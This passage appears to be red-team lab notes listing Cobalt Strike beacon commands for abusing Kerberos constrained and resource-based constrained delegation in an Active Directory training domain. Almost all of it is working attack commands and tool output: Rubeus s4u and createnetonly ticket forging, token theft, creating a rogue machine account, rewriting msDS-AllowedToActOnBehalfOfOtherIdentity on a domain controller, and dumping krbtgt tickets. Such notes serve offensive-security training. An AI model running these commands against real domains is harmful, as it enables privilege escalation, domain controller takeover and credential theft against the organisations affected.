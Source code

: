 ```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:DC-2$ /password:FakePass /ticket:doIFuj[...]lDLklP

[*] Using DEV\DC-2$:FakePass

[*] Showing process : False
[*] Username        : DC-2$
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2832
[+] Ticket successfully imported!
[+] LUID            : 0x4d977f

beacon> steal_token 2832

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
beacon> steal_token 2664
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```

### Resource-Based Constrained Delegation

> You only need a privilege like WriteProperty, GenericAll, GenericWrite or WriteDacl on the computer object

```bash
#MAQ
beacon> powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota
# Create computer
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
# Hash
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
# TGT
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap
```

```bash
beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
# Get SID of computer
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
# Powershell concatenated
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose
beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```